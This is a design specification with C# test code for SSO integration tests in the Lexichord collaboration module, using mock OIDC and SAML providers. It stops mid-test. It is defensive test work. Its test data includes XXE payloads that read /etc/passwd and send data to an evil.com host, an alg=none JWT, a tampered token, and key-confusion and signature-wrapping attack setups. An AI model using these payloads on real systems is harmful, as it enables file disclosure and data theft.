


# LCS-DES-098c: Design Specification — SSO Tests

## 1. Metadata & Categorization

| Field | Value | Description |
| :--- | :--- | :--- |
| **Feature ID** | `TST-098c` | Sub-part of TST-098 |
| **Feature Name** | `SSO Integration Tests with Mock Providers` | Authentication flow verification |
| **Target Version** | `v0.9.8c` | Third sub-part of v0.9.8 |
| **Module Scope** | `Lexichord.Tests.Collaboration` | Test project |
| **Swimlane** | `Governance` | Part of Collaboration vertical |
| **License Tier** | `Core` | Testing available to all |
| **Feature Gate Key** | N/A | No gating for tests |
| **Author** | Lead Architect | |
| **Status** | `Draft` | |
| **Last Updated** | `2026-01-27` | |
| **Parent Document** | [LCS-DES-098-INDEX](./LCS-DES-098-INDEX.md) | |
| **Scope Breakdown** | [LCS-SBD-098 Section 3.3](./LCS-SBD-098.md#33-v098c-sso-tests) | |

---

## 2. Executive Summary

### 2.1 The Requirement

The SSO authentication system introduced in v0.7.4 must correctly handle authentication flows, token lifecycle events, and identity provider edge cases. Without comprehensive testing:

- Token validation could be bypassed
- Expired or revoked tokens could grant unauthorized access
- Provider outages could leave users locked out
- Security vulnerabilities could allow replay attacks or token forgery

> **Goal:** Verify that SSO authentication correctly handles all OIDC, SAML 2.0, and OAuth 2.0 flows with comprehensive edge case coverage using mock identity providers.

### 2.2 The Proposed Solution

Implement a comprehensive test suite that:

1. Tests OIDC authentication flows (Authorization Code, PKCE)
2. Tests SAML 2.0 authentication flows (SP-initiated, IdP-initiated)
3. Tests OAuth 2.0 token flows (authorization, refresh, revocation)
4. Verifies token lifecycle handling (expiry, refresh, revocation)
5. Tests provider resilience (timeouts, outages, key rotation)
6. Implements mock identity providers for isolated testing
7. Integrates with CI to prevent authentication regressions

---

## 3. Architecture & Modular Strategy

### 3.1 Dependencies

#### 3.1.1 Systems Under Test

| Interface | Source Version | Purpose |
| :--- | :--- | :--- |
| `ISsoAuthenticationService` | v0.7.4a | SSO authentication under test |
| `IOidcProvider` | v0.7.4b | OIDC token handling under test |
| `ISamlProvider` | v0.7.4c | SAML assertion handling under test |
| `ISessionManager` | v0.7.5a | Session lifecycle under test |
| `ISecureVault` | v0.0.6a | Token storage |

#### 3.1.2 NuGet Packages

| Package | Version | Purpose |
| :--- | :--- | :--- |
| `xunit` | 2.9.x | Test framework |
| `FluentAssertions` | 6.x | Fluent assertions |
| `Moq` | 4.x | Mocking dependencies |
| `IdentityModel` | 6.x | JWT/OIDC utilities |
| `System.IdentityModel.Tokens.Jwt` | 7.x | JWT token handling |

### 3.2 Licensing Behavior

No licensing required. Tests run in development/CI environments only.

---

## 4. Data Contract (The API)

### 4.1 Test Class Structure

```csharp
namespace Lexichord.Tests.Collaboration.Sso;

/// <summary>
/// Tests for OIDC authentication flows.
/// </summary>
[Trait("Category", "Integration")]
[Trait("Version", "v0.9.8c")]
public class OidcAuthenticationTests
{
    private readonly MockOidcProvider _mockProvider;
    private readonly ISsoAuthenticationService _sut;

    // Test methods...
}

/// <summary>
/// Tests for SAML 2.0 authentication flows.
/// </summary>
[Trait("Category", "Integration")]
[Trait("Version", "v0.9.8c")]
public class SamlAuthenticationTests
{
    private readonly MockSamlProvider _mockProvider;
    private readonly ISsoAuthenticationService _sut;

    // Test methods...
}

/// <summary>
/// Tests for token lifecycle (refresh, expiry, revocation).
/// </summary>
[Trait("Category", "Unit")]
[Trait("Version", "v0.9.8c")]
public class TokenLifecycleTests
{
    // Test methods...
}

/// <summary>
/// Tests for provider resilience (timeouts, outages).
/// </summary>
[Trait("Category", "Integration")]
[Trait("Version", "v0.9.8c")]
public class ProviderOutageTests
{
    // Test methods...
}
```

---

## 5. Implementation Logic

### 5.1 OIDC Authentication Flow



### 5.2 SAML 2.0 Authentication Flow



### 5.3 Token Validation Rules

```text
OIDC ID TOKEN VALIDATION:
├── 1. Verify signature (RS256/RS384/RS512)
│   └── Fetch JWKS from provider discovery endpoint
├── 2. Validate issuer (iss claim)
│   └── Must match configured issuer URL
├── 3. Validate audience (aud claim)
│   └── Must contain our client_id
├── 4. Validate expiry (exp claim)
│   └── exp > current_time (with clock skew tolerance)
├── 5. Validate issued-at (iat claim)
│   └── iat < current_time (with clock skew tolerance)
├── 6. Validate nonce (nonce claim)
│   └── Must match nonce from authorization request
└── 7. Extract claims for session creation

SAML ASSERTION VALIDATION:
├── 1. Verify XML signature (RSA-SHA256)
│   └── Using IdP's public certificate
├── 2. Validate issuer
│   └── Must match configured IdP entity ID
├── 3. Validate destination
│   └── Must match our ACS URL
├── 4. Validate conditions
│   ├── NotBefore < current_time
│   └── NotOnOrAfter > current_time
├── 5. Validate audience restriction
│   └── Must contain our entity ID
├── 6. Check for replay (InResponseTo)
│   └── Must match our AuthnRequest ID
└── 7. Extract subject and attributes
```

### 5.4 Security Attack Prevention

```text
ATTACKS TO TEST:
├── Token Forgery
│   ├── Invalid signature → Reject
│   ├── alg=none attack → Reject
│   └── Key confusion attack → Reject
├── Replay Attacks
│   ├── Reused nonce → Reject
│   ├── Reused assertion ID → Reject
│   └── Reused authorization code → Reject
├── Token Substitution
│   ├── Wrong audience → Reject
│   ├── Wrong issuer → Reject
│   └── Cross-client token → Reject
├── Timing Attacks
│   ├── Expired token → Reject
│   ├── Not-yet-valid token → Reject
│   └── Clock skew beyond tolerance → Reject
└── Injection Attacks
    ├── Malformed JWT → Reject
    ├── XML injection in SAML → Reject
    └── Redirect URI manipulation → Reject
```

---

## 6. Test Scenarios

### 6.1 OidcAuthenticationTests

```csharp
[Trait("Category", "Integration")]
[Trait("Version", "v0.9.8c")]
public class OidcAuthenticationTests
{
    private readonly MockOidcProvider _mockProvider;
    private readonly ISsoAuthenticationService _sut;

    public OidcAuthenticationTests()
    {
        _mockProvider = new MockOidcProvider(
            issuer: "https://mock-idp.example.com",
            audience: "lexichord-client");

        _sut = new SsoAuthenticationService(
            new OidcHandler(_mockProvider),
            new InMemorySessionStore(),
            NullLogger<SsoAuthenticationService>.Instance);
    }

    #region Successful Authentication Tests

    [Fact]
    public async Task Authenticate_ValidIdToken_CreatesSession()
    {
        // Arrange
        var idToken = _mockProvider.GenerateIdToken(
            subject: "user-123",
            email: "user@example.com",
            name: "Test User",
            roles: new[] { "editor" },
            expiresIn: TimeSpan.FromHours(1));

        // Act
        var result = await _sut.AuthenticateOidcAsync(idToken);

        // Assert
        result.IsSuccess.Should().BeTrue();
        result.Session.Should().NotBeNull();
        result.Session.UserId.Should().Be("user-123");
        result.Session.Email.Should().Be("user@example.com");
        result.Session.Claims.Should().Contain("name", "Test User");
        result.Session.ExpiresAt.Should().BeCloseTo(
            DateTime.UtcNow.AddHours(1),
            precision: TimeSpan.FromSeconds(5));
    }

    [Fact]
    public async Task Authenticate_TokenWithAllClaims_ExtractsCorrectly()
    {
        // Arrange
        var idToken = _mockProvider.GenerateIdToken(
            subject: "user-456",
            email: "admin@example.com",
            name: "Admin User",
            roles: new[] { "admin", "editor" },
            customClaims: new Dictionary<string, object>
            {
                ["department"] = "Engineering",
                ["employee_id"] = 12345,
                ["manager"] = true
            });

        // Act
        var result = await _sut.AuthenticateOidcAsync(idToken);

        // Assert
        result.IsSuccess.Should().BeTrue();
        result.Session.Claims["department"].Should().Be("Engineering");
        result.Session.Claims["employee_id"].Should().Be("12345");
        result.Session.Roles.Should().Contain("admin").And.Contain("editor");
    }

    #endregion

    #region Token Expiry Tests

    [Fact]
    public async Task Authenticate_ExpiredToken_ReturnsError()
    {
        // Arrange
        var expiredToken = _mockProvider.GenerateIdToken(
            subject: "user-123",
            expiresIn: TimeSpan.FromHours(-1)); // Already expired

        // Act
        var result = await _sut.AuthenticateOidcAsync(expiredToken);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.TokenExpired);
    }

    [Fact]
    public async Task Authenticate_TokenExpiringNow_WithClockSkew_Succeeds()
    {
        // Arrange - Token that expired 2 minutes ago (within 5-min skew tolerance)
        var almostExpiredToken = _mockProvider.GenerateIdToken(
            subject: "user-123",
            expiresIn: TimeSpan.FromMinutes(-2));

        // Act
        var result = await _sut.AuthenticateOidcAsync(almostExpiredToken);

        // Assert
        result.IsSuccess.Should().BeTrue(
            "Clock skew tolerance should allow tokens expired within 5 minutes");
    }

    [Fact]
    public async Task Authenticate_TokenExpiredBeyondSkew_ReturnsError()
    {
        // Arrange - Token that expired 10 minutes ago (beyond 5-min skew)
        var expiredToken = _mockProvider.GenerateIdToken(
            subject: "user-123",
            expiresIn: TimeSpan.FromMinutes(-10));

        // Act
        var result = await _sut.AuthenticateOidcAsync(expiredToken);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.TokenExpired);
    }

    #endregion

    #region Token Validation Tests

    [Theory]
    [InlineData("invalid.token.here")]
    [InlineData("eyJhbGciOiJub25lIn0.eyJzdWIiOiIxMjMifQ.")]  // alg=none
    [InlineData("eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiIxMjMifQ.invalid")]  // Wrong alg
    [InlineData("")]
    [InlineData(null)]
    public async Task Authenticate_MalformedToken_ReturnsError(string token)
    {
        // Act
        var result = await _sut.AuthenticateOidcAsync(token);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().BeOneOf(
            AuthenticationError.InvalidToken,
            AuthenticationError.MalformedToken,
            AuthenticationError.InvalidSignature);
    }

    [Fact]
    public async Task Authenticate_WrongAudience_ReturnsError()
    {
        // Arrange - Token for different application
        var token = _mockProvider.GenerateIdToken(
            subject: "user-123",
            audience: "wrong-client-id");

        // Act
        var result = await _sut.AuthenticateOidcAsync(token);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.InvalidAudience);
    }

    [Fact]
    public async Task Authenticate_WrongIssuer_ReturnsError()
    {
        // Arrange - Token from untrusted IdP
        var token = _mockProvider.GenerateIdToken(
            subject: "user-123",
            issuer: "https://evil-idp.example.com");

        // Act
        var result = await _sut.AuthenticateOidcAsync(token);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.InvalidIssuer);
    }

    [Fact]
    public async Task Authenticate_TamperedToken_ReturnsError()
    {
        // Arrange
        var validToken = _mockProvider.GenerateIdToken(subject: "user-123");

        // Tamper with payload (change subject)
        var parts = validToken.Split('.');
        var payload = Base64UrlDecode(parts[1]);
        payload = payload.Replace("user-123", "admin");
        parts[1] = Base64UrlEncode(payload);
        var tamperedToken = string.Join(".", parts);

        // Act
        var result = await _sut.AuthenticateOidcAsync(tamperedToken);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.InvalidSignature);
    }

    #endregion

    #region Algorithm Attack Tests

    [Fact]
    public async Task Authenticate_AlgNoneAttack_Rejected()
    {
        // Arrange - Token with alg=none (signature stripping attack)
        var header = Base64UrlEncode("{\"alg\":\"none\",\"typ\":\"JWT\"}");
        var payload = Base64UrlEncode("{\"sub\":\"admin\",\"aud\":\"lexichord-client\"}");
        var maliciousToken = $"{header}.{payload}.";

        // Act
        var result = await _sut.AuthenticateOidcAsync(maliciousToken);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.InvalidSignature);
    }

    [Fact]
    public async Task Authenticate_KeyConfusionAttack_Rejected()
    {
        // Arrange - Token signed with HMAC using RSA public key as secret
        var maliciousToken = CreateKeyConfusionToken(_mockProvider.GetPublicKey());

        // Act
        var result = await _sut.AuthenticateOidcAsync(maliciousToken);

        // Assert
        result.IsSuccess.Should().BeFalse();
    }

    #endregion
}
```

### 6.2 SamlAuthenticationTests

```csharp
[Trait("Category", "Integration")]
[Trait("Version", "v0.9.8c")]
public class SamlAuthenticationTests
{
    private readonly MockSamlProvider _mockProvider;
    private readonly ISsoAuthenticationService _sut;

    public SamlAuthenticationTests()
    {
        _mockProvider = new MockSamlProvider(
            entityId: "https://mock-idp.example.com/saml",
            acsUrl: "https://lexichord.example.com/saml/acs");

        _sut = new SsoAuthenticationService(
            new SamlHandler(_mockProvider),
            new InMemorySessionStore(),
            NullLogger<SsoAuthenticationService>.Instance);
    }

    #region Successful Authentication Tests

    [Fact]
    public async Task Authenticate_ValidSamlResponse_CreatesSession()
    {
        // Arrange
        var samlResponse = _mockProvider.GenerateSamlResponse(
            nameId: "user@example.com",
            nameIdFormat: SamlNameIdFormat.EmailAddress,
            attributes: new Dictionary<string, string>
            {
                ["firstName"] = "John",
                ["lastName"] = "Doe",
                ["role"] = "editor"
            });

        // Act
        var result = await _sut.AuthenticateSamlAsync(samlResponse);

        // Assert
        result.IsSuccess.Should().BeTrue();
        result.Session.Should().NotBeNull();
        result.Session.Email.Should().Be("user@example.com");
        result.Session.Claims["firstName"].Should().Be("John");
        result.Session.Claims["lastName"].Should().Be("Doe");
    }

    [Fact]
    public async Task Authenticate_MultiValueAttributes_ExtractsAll()
    {
        // Arrange
        var samlResponse = _mockProvider.GenerateSamlResponse(
            nameId: "user@example.com",
            multiValueAttributes: new Dictionary<string, string[]>
            {
                ["groups"] = new[] { "engineering", "admin", "users" },
                ["roles"] = new[] { "editor", "reviewer" }
            });

        // Act
        var result = await _sut.AuthenticateSamlAsync(samlResponse);

        // Assert
        result.IsSuccess.Should().BeTrue();
        result.Session.Groups.Should().Contain("engineering", "admin", "users");
        result.Session.Roles.Should().Contain("editor", "reviewer");
    }

    #endregion

    #region Signature Validation Tests

    [Fact]
    public async Task Authenticate_InvalidSignature_ReturnsError()
    {
        // Arrange
        var tamperedResponse = _mockProvider.GenerateTamperedResponse(
            originalNameId: "user@example.com",
            tamperedNameId: "admin@example.com");

        // Act
        var result = await _sut.AuthenticateSamlAsync(tamperedResponse);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.InvalidSignature);
    }

    [Fact]
    public async Task Authenticate_MissingSignature_ReturnsError()
    {
        // Arrange
        var unsignedResponse = _mockProvider.GenerateUnsignedResponse(
            nameId: "user@example.com");

        // Act
        var result = await _sut.AuthenticateSamlAsync(unsignedResponse);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.MissingSignature);
    }

    #endregion

    #region Replay Attack Tests

    [Fact]
    public async Task Authenticate_ReplayedAssertion_ReturnsError()
    {
        // Arrange
        var samlResponse = _mockProvider.GenerateSamlResponse(
            assertionId: "assertion-123",
            nameId: "user@example.com");

        // First authentication succeeds
        var firstResult = await _sut.AuthenticateSamlAsync(samlResponse);
        firstResult.IsSuccess.Should().BeTrue();

        // Act - Replay the same assertion
        var replayResult = await _sut.AuthenticateSamlAsync(samlResponse);

        // Assert
        replayResult.IsSuccess.Should().BeFalse();
        replayResult.Error.Should().Be(AuthenticationError.ReplayAttack);
    }

    [Fact]
    public async Task Authenticate_WrongInResponseTo_ReturnsError()
    {
        // Arrange - Assertion that doesn't match our AuthnRequest
        var samlResponse = _mockProvider.GenerateSamlResponse(
            nameId: "user@example.com",
            inResponseTo: "some-other-request-id");

        // Act
        var result = await _sut.AuthenticateSamlAsync(samlResponse);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.InvalidResponseId);
    }

    #endregion

    #region Conditions Tests

    [Fact]
    public async Task Authenticate_ExpiredAssertion_ReturnsError()
    {
        // Arrange
        var samlResponse = _mockProvider.GenerateSamlResponse(
            nameId: "user@example.com",
            notOnOrAfter: DateTime.UtcNow.AddHours(-1)); // Expired

        // Act
        var result = await _sut.AuthenticateSamlAsync(samlResponse);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.AssertionExpired);
    }

    [Fact]
    public async Task Authenticate_NotYetValidAssertion_ReturnsError()
    {
        // Arrange
        var samlResponse = _mockProvider.GenerateSamlResponse(
            nameId: "user@example.com",
            notBefore: DateTime.UtcNow.AddHours(1)); // Not yet valid

        // Act
        var result = await _sut.AuthenticateSamlAsync(samlResponse);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.AssertionNotYetValid);
    }

    [Fact]
    public async Task Authenticate_WrongAudienceRestriction_ReturnsError()
    {
        // Arrange
        var samlResponse = _mockProvider.GenerateSamlResponse(
            nameId: "user@example.com",
            audienceRestriction: "https://wrong-audience.example.com");

        // Act
        var result = await _sut.AuthenticateSamlAsync(samlResponse);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.InvalidAudience);
    }

    #endregion

    #region XML Security Tests

    [Theory]
    [InlineData("<!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]>")]
    [InlineData("<!ENTITY xxe SYSTEM \"http://evil.com/steal?data=\">")]
    public async Task Authenticate_XxeAttack_Rejected(string xxePayload)
    {
        // Arrange
        var maliciousXml = _mockProvider.InjectXxePayload(xxePayload);

        // Act
        var result = await _sut.AuthenticateSamlAsync(maliciousXml);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.MalformedResponse);
    }

    [Fact]
    public async Task Authenticate_XmlSignatureWrapping_Rejected()
    {
        // Arrange - XML signature wrapping attack
        var wrappedXml = _mockProvider.GenerateSignatureWrappingAttack(
            legitimateNameId: "user@example.com",
            injectedNameId: "admin@example.com");

        // Act
        var result = await _sut.AuthenticateSamlAsync(wrappedXml);

        // Assert
        result.IsSuccess.Should().BeFalse();
    }

    #endregion
}
```

### 6.3 TokenLifecycleTests

```csharp
[Trait("Category", "Unit")]
[Trait("Version", "v0.9.8c")]
public class TokenLifecycleTests
{
    private readonly MockOidcProvider _mockProvider;
    private readonly ISsoAuthenticationService _sut;
    private readonly InMemorySessionStore _sessionStore;

    public TokenLifecycleTests()
    {
        _mockProvider = new MockOidcProvider();
        _sessionStore = new InMemorySessionStore();
        _sut = new SsoAuthenticationService(
            new OidcHandler(_mockProvider),
            _sessionStore,
            NullLogger<SsoAuthenticationService>.Instance);
    }

    #region Token Refresh Tests

    [Fact]
    public async Task RefreshToken_ValidRefreshToken_ReturnsNewTokens()
    {
        // Arrange
        var session = await CreateAuthenticatedSession(
            accessTokenExpiry: TimeSpan.FromMinutes(5),
            refreshTokenExpiry: TimeSpan.FromDays(7));

        // Act
        var result = await _sut.RefreshSessionAsync(session.RefreshToken);

        // Assert
        result.IsSuccess.Should().BeTrue();
        result.NewAccessToken.Should().NotBe(session.AccessToken);
        result.NewRefreshToken.Should().NotBe(session.RefreshToken);
        result.NewExpiresAt.Should().BeAfter(session.ExpiresAt);
    }

    [Fact]
    public async Task RefreshToken_ExpiredRefreshToken_ReturnsError()
    {
        // Arrange
        var session = await CreateAuthenticatedSession(
            refreshTokenExpiry: TimeSpan.FromSeconds(-1)); // Already expired

        // Act
        var result = await _sut.RefreshSessionAsync(session.RefreshToken);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.RefreshTokenExpired);
    }

    [Fact]
    public async Task RefreshToken_RevokedSession_ReturnsError()
    {
        // Arrange
        var session = await CreateAuthenticatedSession();
        await _sut.RevokeSessionAsync(session.Id);

        // Act
        var result = await _sut.RefreshSessionAsync(session.RefreshToken);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.SessionRevoked);
    }

    [Fact]
    public async Task RefreshToken_UsedRefreshToken_InvalidatesOldAndNew()
    {
        // Arrange - Refresh token rotation
        var session = await CreateAuthenticatedSession();

        // First refresh succeeds
        var firstRefresh = await _sut.RefreshSessionAsync(session.RefreshToken);
        firstRefresh.IsSuccess.Should().BeTrue();

        // Act - Try to use old refresh token again (token reuse detection)
        var reuseAttempt = await _sut.RefreshSessionAsync(session.RefreshToken);

        // Assert - Reuse detected, all tokens invalidated
        reuseAttempt.IsSuccess.Should().BeFalse();
        reuseAttempt.Error.Should().Be(AuthenticationError.TokenReuseDetected);

        // New refresh token should also be invalidated (compromised)
        var newTokenAttempt = await _sut.RefreshSessionAsync(firstRefresh.NewRefreshToken);
        newTokenAttempt.IsSuccess.Should().BeFalse();
    }

    #endregion

    #region Session Revocation Tests

    [Fact]
    public async Task RevokeSession_ValidSession_InvalidatesAllTokens()
    {
        // Arrange
        var session = await CreateAuthenticatedSession();

        // Act
        await _sut.RevokeSessionAsync(session.Id);

        // Assert
        var validateResult = await _sut.ValidateSessionAsync(session.AccessToken);
        validateResult.IsValid.Should().BeFalse();
    }

    [Fact]
    public async Task RevokeAllSessions_User_InvalidatesAllUserSessions()
    {
        // Arrange - Create multiple sessions for same user
        var session1 = await CreateAuthenticatedSession(userId: "user-123");
        var session2 = await CreateAuthenticatedSession(userId: "user-123");
        var session3 = await CreateAuthenticatedSession(userId: "user-456");

        // Act - Revoke all sessions for user-123
        await _sut.RevokeAllSessionsForUserAsync("user-123");

        // Assert
        (await _sut.ValidateSessionAsync(session1.AccessToken)).IsValid.Should().BeFalse();
        (await _sut.ValidateSessionAsync(session2.AccessToken)).IsValid.Should().BeFalse();
        (await _sut.ValidateSessionAsync(session3.AccessToken)).IsValid.Should().BeTrue();
    }

    #endregion

    #region Concurrent Refresh Tests

    [Fact]
    public async Task RefreshToken_ConcurrentRequests_OnlyOneSucceeds()
    {
        // Arrange
        var session = await CreateAuthenticatedSession();

        // Act - Multiple concurrent refresh attempts
        var tasks = Enumerable.Range(0, 10)
            .Select(_ => _sut.RefreshSessionAsync(session.RefreshToken))
            .ToArray();

        var results = await Task.WhenAll(tasks);

        // Assert - Exactly one should succeed
        results.Count(r => r.IsSuccess).Should().Be(1);
        results.Count(r => !r.IsSuccess).Should().Be(9);
    }

    #endregion

    private async Task<Session> CreateAuthenticatedSession(
        string userId = "user-123",
        TimeSpan? accessTokenExpiry = null,
        TimeSpan? refreshTokenExpiry = null)
    {
        var idToken = _mockProvider.GenerateIdToken(
            subject: userId,
            expiresIn: accessTokenExpiry ?? TimeSpan.FromHours(1));

        var result = await _sut.AuthenticateOidcAsync(idToken);
        return result.Session;
    }
}
```

### 6.4 ProviderOutageTests

```csharp
[Trait("Category", "Integration")]
[Trait("Version", "v0.9.8c")]
public class ProviderOutageTests
{
    private readonly MockOidcProvider _mockProvider;
    private readonly ISsoAuthenticationService _sut;

    public ProviderOutageTests()
    {
        _mockProvider = new MockOidcProvider();
        _sut = CreateServiceWithProvider(_mockProvider);
    }

    #region Timeout Tests

    [Fact]
    public async Task Authenticate_ProviderTimeout_ReturnsError()
    {
        // Arrange
        _mockProvider.ConfigureLatency(TimeSpan.FromSeconds(30));

        var token = _mockProvider.GenerateIdToken(subject: "user-123");

        // Act
        var result = await _sut.AuthenticateOidcAsync(
            token,
            timeout: TimeSpan.FromSeconds(5));

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.ProviderTimeout);
    }

    [Fact]
    public async Task GetJwks_ProviderSlow_RetriesWithBackoff()
    {
        // Arrange
        var attemptCount = 0;
        _mockProvider.OnJwksRequest += () =>
        {
            attemptCount++;
            if (attemptCount < 3)
            {
                throw new HttpRequestException("Temporary failure");
            }
        };

        var token = _mockProvider.GenerateIdToken(subject: "user-123");

        // Act
        var result = await _sut.AuthenticateOidcAsync(token);

        // Assert
        result.IsSuccess.Should().BeTrue();
        attemptCount.Should().Be(3);
    }

    #endregion

    #region Offline Resilience Tests

    [Fact]
    public async Task Authenticate_ProviderOffline_UsesCachedJwks()
    {
        // Arrange - First auth caches JWKS
        var token1 = _mockProvider.GenerateIdToken(subject: "user-123");
        var result1 = await _sut.AuthenticateOidcAsync(token1);
        result1.IsSuccess.Should().BeTrue();

        // Provider goes offline
        _mockProvider.GoOffline();

        // Act - Should use cached keys
        var token2 = _mockProvider.GenerateIdToken(subject: "user-456");
        var result2 = await _sut.AuthenticateOidcAsync(token2);

        // Assert
        result2.IsSuccess.Should().BeTrue();
    }

    [Fact]
    public async Task Authenticate_ProviderOffline_NoCachedKeys_ReturnsError()
    {
        // Arrange - Provider offline from start
        _mockProvider.GoOffline();

        var token = _mockProvider.GenerateIdToken(subject: "user-123");

        // Act
        var result = await _sut.AuthenticateOidcAsync(token);

        // Assert
        result.IsSuccess.Should().BeFalse();
        result.Error.Should().Be(AuthenticationError.ProviderUnavailable);
    }

    [Fact]
    public async Task Authenticate_ProviderRecovers_RefreshesKeys()
    {
        // Arrange - Cache keys, go offline, come back
        var token1 = _mockProvider.GenerateIdToken(subject: "user-123");
        await _sut.AuthenticateOidcAsync(token1);

        _mockProvider.GoOffline();
        await Task.Delay(TimeSpan.FromSeconds(1));
        _mockProvider.GoOnline();

        // Rotate keys while "offline"
        var token2 = _mockProvider.RotateKeysAndGenerateToken(subject: "user-456");

        // Act
        var result = await _sut.AuthenticateOidcAsync(token2);

        // Assert - Should fetch new keys
        result.IsSuccess.Should().BeTrue();
    }

    #endregion

    #region Key Rotation Tests

    [Fact]
    public async Task Authenticate_KeyRotation_HandledGracefully()
    {
        // Arrange - Authenticate with original key
        var token1 = _mockProvider.GenerateIdToken(subject: "user-123");
        var result1 = await _sut.AuthenticateOidcAsync(token1);
        result1.IsSuccess.Should().BeTrue();

        // Provider rotates keys
        _mockProvider.RotateKeys();

        // Act - New token with new key
        var token2 = _mockProvider.GenerateIdToken(subject: "user-456");
        var result2 = await _sut.AuthenticateOidcAsync(token2);

        // Assert
        result2.IsSuccess.Should().BeTrue();
    }

    [Fact]
    public async Task Authenticate_OldKeyStillValid_DuringRotationWindow()
    {
        // Arrange - Generate token with old key
        var oldToken = _mockProvider.GenerateIdToken(subject: "user-123");

        // Rotate keys (old key still in JWKS for grace period)
        _mockProvider.RotateKeys(keepOldKey: true);

        // Act - Validate old token
